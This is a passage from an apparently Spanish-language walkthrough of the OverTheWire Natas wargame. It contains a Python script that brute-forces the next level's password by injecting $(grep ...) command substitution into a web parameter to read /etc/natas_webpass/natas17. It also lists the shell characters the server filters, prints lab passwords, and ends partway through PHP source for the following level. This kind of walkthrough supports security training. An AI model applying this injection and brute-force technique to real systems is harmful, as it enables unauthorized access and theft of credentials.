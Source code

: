 ```php
}

?>

</pre>

Filtered carracters: 
; & | ' ` "
```

Usamos el script para bruteforcear los usuarios:

```python
import requests  
from requests.auth import HTTPBasicAuth  
  
auth=HTTPBasicAuth('natas16', 'hPkjKYviLQctEW33QmuXL6eDVfMW4sGo')  
  
filteredchars = ''  
passwd = ''  
allchars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'  
for char in allchars:  
 r = requests.get('<http://natas16.natas.labs.overthewire.org/?needle=doomed$>(grep ' + char + ' /etc/natas_webpass/natas17)', auth=auth)  
   
 if 'doomed' not in r.text:  
  filteredchars = filteredchars + char  
  print(f"Caracteres validos encontrados:{filteredchars}")  
  
for i in range(32):  
 for char in filteredchars:  
  r = requests.get('<http://natas16.natas.labs.overthewire.org/?needle=doomed$>(grep ^' + passwd + char + ' /etc/natas_webpass/natas17)', auth=auth)  
    
  if 'doomed' not in r.text:  
   passwd = passwd + char  
   print(f"Password validos encontrados:{passwd}")  
   break  
```

Output: EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC

## Level 18

Mismo codigo que natas15, pero esta vez , sin respuesta boleana, ya que la parte del echo está comentada.

```php
<?php

/*

CREATE TABLE `users` (

`username` varchar(64) DEFAULT NULL,

`password` varchar(64) DEFAULT NULL

);

- /

if(array_key_exists("username", $_REQUEST)) {

$link = mysqli_connect('localhost', 'natas17', '<censored>');
```